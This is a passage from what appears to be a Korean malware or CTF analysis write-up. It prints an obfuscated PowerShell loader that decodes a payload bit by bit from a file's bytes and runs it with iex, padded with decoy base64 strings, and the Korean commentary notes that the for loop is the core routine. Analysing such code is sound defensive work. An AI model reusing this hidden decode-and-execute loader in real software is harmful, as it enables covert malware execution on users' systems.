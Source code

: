 ```powershell
        $var20 = 0
    }
}

$command = [System.Text.Encoding]::ASCII.GetString($decoded_data.ToArray())

# iex는 문자열을 명령어로서 실행하는 함수
iex $command

# 문자열 출력부

$var24 = "MA==(0)"
$var25 = [System.Convert]::ToInt32([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($var24)))

$var26 = [math]::sqrt(1024)
$var27 = [System.Convert]::FromBase64String("UG93ZXJTaGVsbA==(PowerShell)")
$var28 = [System.Text.Encoding]::ASCII.GetString($var27)

if ($var25 -eq $var25) {
    $var29 = $var26 + $var25
}

$var30 = "V2VsY29tZQ==(Welcome)"
$var31 = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($var30))

for ($var32 = $var25; $var32 -lt $var29; $var32++) {
    $var33 = $var25 * $var32
}

$var34 = [System.Convert]::FromBase64String("U2NyaXB0IGhhcyBlbmRlZCBleGVjdXRpb24=(Script has ended execution)")
$var35 = [System.Text.Encoding]::ASCII.GetString($var34)
```

iex 뒤에 오는 데이터는 for문을 거쳐서 도출되는 것으로 보인다. 따라서, for문이 핵심부로 보인다.

```powershell
for ($var21 = 55; $var21 < 18304 ; $var21++) {
    $var19 = $var19 -bor ($guide_fileData[$var21]* [Math]::Pow(2, $var20))
    $var20++

    if ($var20 -eq 8) {
        if ($var19 -eq 0) {
            break
        }

        [void]$decoded_data.Add([byte]$var19)
        $var19 = 0
        $var20 = 0
    }
} 
```
